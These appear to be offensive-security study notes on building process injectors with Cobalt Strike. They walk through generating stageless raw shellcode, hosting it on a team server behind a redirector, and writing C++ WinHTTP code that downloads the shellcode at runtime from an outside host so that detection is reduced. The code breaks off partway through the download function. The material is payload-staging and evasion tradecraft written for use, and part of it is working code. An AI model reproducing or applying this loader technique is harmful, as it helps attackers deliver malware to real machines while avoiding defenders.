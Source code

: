 Writing process injectors using Cobalt Strike shellcode, generate shellcode via *Payloads > Windows Stageless Payload* and setting the output to *raw*

This window alsp let's us select what kind of exit function we want: ExitProcess or ExitThread

If you do _Payloads > Windows Stageless Generate All Payloads_ then both variants will be produced with the filenames xprocess and xthread

Host the xprocess shellcode on the CS team server via _Site Management > Host File_

Ensure there are appropriate htaccess rules to allow the shellcode to be downloaded through the redirector

## Downloading Files in C++

WinHTTP is a windows library to access the HTTP protocol. Best practice is to download shellcode at runtime to get around the inflexibility to change shellcode and reduce detection.

Example start to calling winhttp:
```
#include <Windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>

#pragma comment(lib, "winhttp.lib")

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename);
```

The pragma line tells the linker to look for the specified library during compilation. We also declare a download function that will take a URL and filename, and return a BYTE vector. 

Full code to make a GET request for shellcode at a target:

```
#include <Windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>

#pragma comment(lib, "winhttp.lib")

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename);

int main()
{
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,    // proxy aware
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        WINHTTP_FLAG_SECURE_DEFAULTS);          // enable ssl

    // create session for target
    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        INTERNET_DEFAULT_HTTPS_PORT,            // port 443
        0);

    // create request handle
```
